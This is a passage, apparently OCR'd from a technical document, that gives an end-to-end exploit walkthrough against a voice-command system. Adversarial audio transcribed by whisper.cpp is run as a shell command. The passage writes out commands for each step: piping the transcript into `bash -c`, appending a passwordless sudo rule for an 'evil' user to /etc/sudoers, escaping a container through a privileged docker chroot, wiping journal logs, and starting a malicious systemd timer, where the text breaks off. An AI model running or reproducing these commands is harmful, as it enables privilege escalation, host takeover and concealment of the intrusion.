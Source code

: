 * **Underlying Linux actions:**

  * `df` → `statfs(2)` calls on filesystems
  * `tar` → `open()`,`read()`, `write()` of files
  * `curl` → DNS lookup (`getaddrinfo()`), `socket()`, `connect()`, HTTP GET

---

### 7.4 End-to-End Exploit Walkthrough

1. **Prepare Adversarial Audio**

   * Generate `adv_reboot_and_add_user.wav` targeting transcript
2. **Host Payload**

   * Upload to HTTP server in mesh (`pod-web-filehost:80`).
   * Linux: `python3 -m http.server 80` → `socket()`, `bind()`, `listen()`, `accept()`.
3. **Trigger Recording**

   * Victim presses hotkey → `sxhkd` runs:

     ```bash
     arecord -f cd -d 6 /tmp/rec.wav
     curl --data-binary @/tmp/rec.wav http://whisper-api:5000/transcribe > /tmp/out.json
     ```
4. **Transcription & Dispatch**

   * whisper.cpp sidecar receives audio → streams JSON to dispatcher FIFO.
   * Dispatcher reads JSON via `jq`, extracts malicious command:

     ```bash
     cmd=$(jq -r .text /tmp/out.json)
     bash -c "$cmd"
     ```
5. **Privilege Escalation**

   * `systemctl restart nginx` (D-Bus call → kernel namespace reload)
   * `echo "evil ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers` (`open()`,`write()`)
6. **Container Escape**

   * If running inside a Kubernetes pod with Docker socket mounted:

     ```bash
     bash -c "docker run --privileged -v /:/mnt/host alpine chroot /mnt/host /bin/bash"
     ```
   * `execve("docker",…)` → container runtime uses `clone()` to break out
7. **Cleanup & Persistence**

   * Overwrite journal logs:

     ```bash
     journalctl --vacuum-time=1s
     ```
   * Create malicious systemd timer:

     ```ini
     [Unit]
     Description=Evil Timer
